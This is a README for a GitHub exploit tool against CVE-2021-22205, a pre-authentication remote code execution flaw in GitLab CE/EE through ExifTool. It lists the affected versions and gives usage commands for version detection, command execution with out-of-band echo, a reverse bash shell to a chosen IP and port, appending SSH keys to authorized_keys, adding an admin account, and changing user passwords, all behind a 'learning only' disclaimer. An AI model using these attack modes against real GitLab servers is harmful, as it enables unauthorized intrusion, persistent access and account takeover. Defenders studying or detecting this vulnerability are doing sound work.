





# CVE-2021-22205

GitLab CE/EE Preauth RCE using ExifTool

*This project is for learning only, if someone's rights have been violated, please contact me to remove the project, and the last **DO NOT USE IT ILLEGALLY** If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself. All developers and all contributors of this tool do not bear any legal and joint liabilities*

## Description

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

Affect Versions:

- \>=11.9, <13.8.8
- \>=13.9, <13.9.6
- \>=13.10, <13.10.3

## Features

- Gitlab version detection through the hash in Webpack manifest.json 

- Automatical out-of-band interactions with DNSLog & ~~PostBin~~ **RequestBin**
- Support Reverse Bash Shell / Append SSH Key to authorized_keys
- Support ENTER to modify and restore gitlab user password

## Usage

```bash
🐚 ››› python CVE-2021-22205.py

      ░░░░▐▐░░░  CVE-2021-22205
 ▐  ░░░░░▄██▄▄  GitLab CE/EE Unauthenticated RCE using ExifTool
  ▀▀██████▀░░  Affecting all versions starting from 11.9
  ░░▐▐░░▐▐░░  security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild
 ▒▒▒▐▐▒▒▐▐▒  github.com/inspiringz/CVE-2021-22205

Usage:
    python3 CVE-2021-22205.py -u site_url -m detect        # gitlab version & vuln detect
    python3 CVE-2021-22205.py -u site_url -m rce1 'id'     # rce (echo via requestbin oob) 
    python3 CVE-2021-22205.py -u site_url -m rce2 'id'     # rce (echo via write file) *
    python3 CVE-2021-22205.py -u site_url -m rev ip port   # reverse bash shell
    python3 CVE-2021-22205.py -u site_url -m ssh git/root  # append ssh authorized_keys
    python3 CVE-2021-22205.py -u site_url -m add user pass # add manager account *
    python3 CVE-2021-22205.py -u site_url -m mod user      # modify specified user's password => P4ss@GitLab
    python3 CVE-2021-22205.py -u site_url -m rec user      # restore specified user's original password
```

- The `site_url` parameter format: http[s]://<domain|ip>[:port]/, such as: https://example.com:9000/
- Methods(rce2,add) marked by `*` is unstable, may not work :(
- You can modify the script content according to the actual environment

## Screenshot

Detect:



RCE(Echo via RequestBin OOB):



Reverse Bash Shell:



Append SSH Key to authorized_keys:



Gitlab user password modification and restoration:



## Reference

- https://github.com/projectdiscovery/nuclei-templates/blob/637eec3efac6eb384742c7aaa4e7d14f3392ede9/cves/2021/CVE-2021-22205.yaml
- https://gitlab.com/gitlab-org/cves/-/blob/master/2021/CVE-2021-22205.json
- https://github.com/righel/gitlab-version-nse
